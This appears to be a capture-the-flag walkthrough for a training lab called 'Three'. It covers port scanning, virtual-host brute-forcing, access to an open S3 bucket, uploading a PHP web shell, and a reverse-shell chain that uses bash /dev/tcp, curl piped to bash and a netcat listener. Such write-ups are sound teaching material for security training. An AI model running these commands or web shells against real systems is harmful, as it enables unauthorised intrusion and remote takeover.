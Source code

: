 # GUIDE for THREE

## Task 1

For the first one, do a simple nmap to scan all the ports and see how many tcp port are open. 

```bash
nmap -sV -sC [IP]
```

Then after interpreting the shema we can see that there is only two ports open.

---
## Task 2


For this one we just need to go to the search bar of mozilla or any navigator and type, and navigate to the contact page and get the domaine of the email adress we can see on it.

```bash
http://[IP]

```
---
## Task 3 


In case the DNS server is absente we need to change the 

```bash
/etc/hosts
```

You can choose to directly type the ip adresse we need to go to and the domaine name directly in the file with nano.

or there is a fastest way to do it.

```bash
echo "[IP] [domain.domain]" | sudo tee -a /etc/hosts
```

echo        -- de l'entrer a inserer dans le fichier <br/>
tee         -- permet d'inserer l'echo dans un fichier <br/>
-a          -- permet d'ecrire l'echo a la fin d'un fichier sans le remplacer <br/>
/etc/hosts  -- fichier visé <br/>

---
## Task 4  

To find the subdomain will make a bruteforcing using a wordlist and gobuster to test every possibility and then find the subdomains available.

```bash
gobuster vhost -w /path/to/the/wordlist -u http://domain-that-we-need-to-bruteforce.example --append-domain
```

We got two domain available et the good one is "s3.thetoppers.htb"

---
## Task 5

We need to discover what is the service that is running on this website. For this we can find the solution just with a quick research on google by typing something like "s3 service".

---
## Task 6

After this for this task we can just type on google "wich command line can be use with amazon s3 service and easily get the answers. 

awscli

---
## Task 7 

We can configure it with the command

```bash
aws configure
```

---
## Task 8

To list all of the s3 bucket we can use 

```bash
aws s3 ls
```

In our case we use it like this.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls 
```

like this we can see the s3 buckets.

---
## Task 9

To see a list of what is present in that bucket we can use a command and specify the bucket we need a list of.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://[name-of-the-bucket]
```

Adn finnaly with this we can see that the server is running with a php script.

## Task 10

At the moment we know about the bucket we can actively act to make a shell. <br/>
Once we know that the script is in php the shell as to be in php.<br/>
In this case we try to make a shell who's gonna ask for the command line. <br/>

```bash
<?php system($_GET['cmd']);?>
```

Once we did that we have to create php file that we will call "shell.php"

```bash
echo '<?php system($_GET['cmd']);?>' > shell.php
```

After this we can try to see if we get an answer from the server by tiping a line into the navigator. But before this we have to upload it to the server with: 

```bash
aws --enpoint=http://s3.thetoppers.htb s3 cp shell.php s3://[name-of-the-bucket]
```

Then 

```bash
http://thetopper.htb/shell.php?cmd=id

```
All of this to let us know that the connection is ok by seeing the id into the navigator. So we now can try to get a reverse shell.

To start we will create a script sh 

```bash
echo 'bash -i >& /dev/tcp/[our IP]/[listening port] >&1' > shell.sh
```

Then we will initialize a ncat to listen

```bash
nc -nvlp [listening port]
```

And to finish we will start a http server and host the bash file

```bash
python3 -m http.server 8000
```

Finnaly we can go to the navigator to type an adresse to get our server to run. With curl we will feth the reverse shell file to excute the bash and have it on our bash.

```bash
http://thetopper.htb/shell.php?cmd=curl%20[our IP]:8000/shell.sh|bash
```

And then navigate into your ncat to find the flag.txt.


